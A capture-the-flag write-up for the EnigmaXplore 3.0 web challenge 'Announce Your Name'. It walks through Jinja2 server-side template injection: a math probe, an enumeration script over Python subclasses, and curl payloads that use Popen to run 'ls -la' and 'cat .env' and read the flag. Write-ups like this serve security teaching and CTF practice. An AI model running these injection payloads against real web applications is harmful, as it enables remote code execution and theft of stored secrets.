




## EnigmaXplore 3.0 - Announce Your Name 150 Write-up



### Step 1: Initial Analysis and Vulnerability Confirmation

On the landing page, we see an input field and a cryptic description that hints at server-side data processing ("The language of walls," "the modular secret").

The first step is to check for SSTI. We send a simple mathematical operation using the syntax of the Jinja2 template engine.

```bash
curl -X POST "https://enigmaxplore-web1.chals.io/submit" --data-urlencode "message={{ 7 * 7 }}"
```

The server returns `49`, which definitively confirms the SSTI vulnerability.



There is also JavaScript on the page that locks the input field. This protection is easily bypassed by sending requests directly via `curl`, which is what we'll be doing.

### Step 2: Enumeration and First Hurdles

Our goal is to escalate from simple expression execution to Remote Code Execution (RCE) or file reading. To do this, we attempt to access the list of all loaded Python classes.

**Payload to access subclasses:**
`{{ ''.__class__.__base__.__subclasses__() }}`

We start by iterating through the classes by their index, hoping to find `subprocess.Popen`. However, this is unsuccessful—most likely, **the server is filtering the list, removing dangerous classes** found at low indices.

The next problem arises when trying to pass a filename as an argument. The server blocks string literals (`'...'`) inside function calls within the template. To bypass this, we pass the strings we need via URL parameters and access them in the template through the `request` object.

### Step 3: Automation and Breakthrough

Manually iterating through hundreds of classes is inefficient. Therefore, we automate the process with a Python script that will iterate through the indices and print the corresponding class names.

#### Script for finding the index (`index_finder.py`)

```python
import requests
from bs4 import BeautifulSoup
import time

# Target URL
URL = "https://enigmaxplore-web1.chals.io/submit"

# Index range to check
START_INDEX = 1
END_INDEX = 600 # Increasing the range for a full search

print(f"[*] Starting search for the required class in the index range from {START_INDEX} to {END_INDEX}...")

# Iterate through all indices in the specified range
for i in range(START_INDEX, END_INDEX + 1):
    # Form the payload to get the class name by its index
    payload = f"{{{{ ''.__class__.__base__.__subclasses__()[{i}].__name__ }}}}"
    data = {'message': payload}

    try:
        # Send a POST request
        response = requests.post(URL, data=data, timeout=5)
        
        if response.status_code == 200:
            # Parse the HTML response
            soup = BeautifulSoup(response.text, 'html.parser')
            result_div = soup.find('div')

            if result_div:
                class_name = result_div.text.strip()
                print(f"Index [{i}]: {class_name}")

                # Check if the class name contains keywords related to files or command execution
                if any(keyword in class_name.lower() for keyword in ['file', 'wrapper', 'textio', 'open', 'popen']):
                    print(f"\n[!!!] POTENTIALLY SUITABLE CLASS FOUND!")
                    print(f"[!!!] INDEX: {i}")
                    print(f"[!!!] CLASS NAME: {class_name}\n")
            else:
                print(f"Index [{i}]: Failed to extract class name. Server response:\n{response.text[:150]}...")

    except requests.exceptions.RequestException as e:
        print(f"Index [{i}]: Error while sending request: {e}")

print("\n[*] Search completed.")
```

After running the script, we make a key discovery: the `Popen` class wasn't removed; it was just **hidden at a high index—506!** This is our key to RCE.

### Step 4: RCE Exploitation and Reconnaissance

Now we have everything we need to execute commands on the server. We use the discovered index `506` and the string filter bypass method.

First, we conduct reconnaissance to see what files are in the current directory.

**Reconnaissance Command:**
(Remember to URL-encode the space as `%20`)
```bash
curl -X POST "https://enigmaxplore-web1.chals.io/submit?cmd=ls%20-la" --data-urlencode "message={{ ''.__class__.__base__.__subclasses__()[506](request.args.cmd, shell=True, stdout=-1).communicate()[0].decode() }}"
```

The server returns a list of files.



Among the files, we see `.env`. This is a standard file for storing environment variables and secrets, which makes it our primary target.

### Step 5: Retrieving the Flag

All that's left is to read the contents of the `.env` file. We simply change the command in our request.

**Command to Read the Flag:**
```bash
curl -X POST "https://enigmaxplore-web1.chals.io/submit?cmd=cat%20.env" --data-urlencode "message={{ ''.__class__.__base__.__subclasses__()[506](request.args.cmd, shell=True, stdout=-1).communicate()[0].decode() }}"
```

The server returns the contents of the file, which contains the flag.



### Flag
Flag: `EnXp{N01T53UQFTC34T3DAM5A47ANUK}`